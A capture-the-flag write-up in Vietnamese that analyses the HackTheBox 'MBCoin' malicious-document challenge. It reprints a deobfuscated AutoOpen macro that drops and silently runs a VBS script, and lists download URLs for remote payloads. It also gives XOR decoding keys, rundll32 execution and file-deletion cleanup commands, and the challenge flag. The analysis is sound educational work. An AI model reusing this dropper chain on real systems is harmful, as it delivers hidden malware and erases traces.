







# Challenge MBCoin

## 1. Đầu vào challenge

Challenge cung cấp 2 file đầu vào:

- `mbcoin.doc`
- `mbcoin.pcapng`

Kiểm tra file `.doc` trước để xem tài liệu có chứa macro hay không.



Deobfuscate để dễ nhìn thì macro `AutoOpen()` có dạng như sau:

```vb
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)

    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)

    RO = "C:\ProgramData\"
    ROI = RO + "pin.vbs"

    ii = ""
    Ne = "IZIMIZIOZI"

    WW = QQ1.AlternativeText + QQ2.AlternativeText

    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile

    fun = Shell("cmd /k cscript.exe C:\ProgramData\pin.vbs", 0)

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend

    MsgBox ("Unfortunately you are not eligable for free coin!")
    End
End Sub
```

### Nhận xét

Các chuỗi quan trọng bị đảo bằng `StrReverse`:

- `\ataDmargorP\:C` → `C:\ProgramData\`
- `sbv.nip` → `pin.vbs`

Macro lấy nội dung từ `AlternativeText` của 2 shape, ghép lại rồi ghi ra:

```text
C:\ProgramData\pin.vbs
```

Sau đó chạy file này bằng:

```text
cmd /k cscript.exe C:\ProgramData\pin.vbs
```

`Chr(48) = "0"` tương ứng chạy cửa sổ ẩn.

Vậy giờ đã biết được nội dung còn được giấu trong `AlternativeText` của các `Shape`, vì macro có đoạn:

```vb
WW = QQ1.AlternativeText + QQ2.AlternativeText
```

---

## 2. Lấy và đọc nội dung `pin.vbs`

Sử dụng `strings` và `grep` để grep chuỗi `WW`.



Thấy được đoạn PowerShell đang bị obfuscate.

Sau khi deobfuscate nhận thấy nhóm `LL1` đến `LL5` có nhiệm vụ tải payload từ 5 nguồn khác nhau.

| Biến | URL | File ghi ra |
|---|---|---|
| LL1 | `http://priyacareers.htb/u9hDQN9Yy7g/pt.html` | `C:\ProgramData\www1.dll` |
| LL2 | `https://perfectdemos.htb/Gv1iNAuMKZ/jv.html` | `C:\ProgramData\www2.dll` |
| LL3 | `http://bussiness-z.htb/ze8pCNTIkrIS/wp.html` | `C:\ProgramData\www3.dll` |
| LL4 | `http://cablingpoint.htb/ByH5NDoE3kQA/vm.html` | `C:\ProgramData\www4.dll` |
| LL5 | `https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html` | `C:\ProgramData\www5.dll` |





Như vậy stage này có nhiệm vụ tải nhiều file về thư mục `C:\ProgramData\`, sau đó tiếp tục xử lý chúng.

---

## 3. Nhóm `MM1` đến `MM5`: XOR payload

Nhóm `MM1` đến `MM5` dùng để XOR payload.

Mỗi `MMx` làm cùng một việc:

```text
$b = ReadAllBytes("C:\ProgramData\wwwx.dll")
$k = "key tương ứng"
$r = byte array mới

for từng byte:
    r[i] = b[i] XOR k[i % len(k)]

WriteAllBytes("C:\ProgramData\www.dll", r)
```



Tức là từng file `wwwx.dll` sau khi tải về sẽ được XOR với key tương ứng, rồi ghi kết quả ra file chung:

```text
C:\ProgramData\www.dll
```

Ở cuối script còn có nhóm `OK1`, `OK2` để chạy và dọn file.

```text
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
```

### Nhận xét

```text
rundll32.exe C:\ProgramData\www.dll,ldr
```

tức là chạy DLL `www.dll`, gọi export tên `ldr`.

Sau đó:

```text
del C:\programdata\www*
```

để xóa các file `www1.dll`, `www2.dll`, ..., `www.dll` nhằm dọn dấu vết.

---

## 4. Quay lại `pcap` để xem file nào thực sự được tải

Giờ quay lại `pcap`, vì đã biết nhóm `LL1` đến `LL5` tải payload từ các URL trong script, nên sử dụng filter để lọc những HTTP request có URI trùng với các file được tải:

```wireshark
http.request and (
  http.request.uri contains "pt.html" or
  http.request.uri contains "jv.html" or
  http.request.uri contains "wp.html" or
  http.request.uri contains "vm.html" or
  http.request.uri contains "tz.html"
)
```

Các file này tương ứng với:

- `pt.html` -> `www1.dll`
- `jv.html` -> `www2.dll`
- `wp.html` -> `www3.dll`
- `vm.html` -> `www4.dll`
- `tz.html` -> `www5.dll`

Sau khi dùng filter chỉ thấy có **3 request** tải payload qua HTTP:

- `GET /u9hDQN9Yy7g/pt.html` -> `www1.dll`
- `GET /ze8pCNTIkrIS/wp.html` -> `www3.dll`
- `GET /ByH5NDoE3kQA/vm.html` -> `www4.dll`



Vậy giờ export 3 file này ra để phân tích tiếp.

---

## 5. XOR 3 payload đã tải được

Sau khi export, sử dụng script để XOR từng payload với key tương ứng lấy từ các biến `MMx`.

```python
from pathlib import Path

pairs = {
    "www1.dll": "6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6",
    "www3.dll": "6iIWGoMk5iRYAw7ZTWed0CrjuZ9wijyQDjOL9Ms0D8K0Z2H5MX6wyOKqFxlOm1spjmYfaQXacA6",
    "www4.dll": "6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6",
}

out_dir = Path("decoded")
out_dir.mkdir(exist_ok=True)

for name, key in pairs.items():
    data = Path(name).read_bytes()
    key = key.encode()

    decoded = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

    out = out_dir / f"decrypt_{name}"
    out.write_bytes(decoded)

    print(f"{out}")
```

Cuối cùng dùng `strings -a` chưa thấy chuỗi đặc biệt, nên thử tiếp `strings -el` để đọc chuỗi Unicode UTF-16LE trong DLL:

```bash
strings -el decoded/*
```

Kết quả thu được flag là:

```text
HTB{wH4tS_4_sQuirReLw4fFl3?}
```

---

## 6. Flag

```text
HTB{wH4tS_4_sQuirReLw4fFl3?}
```

---


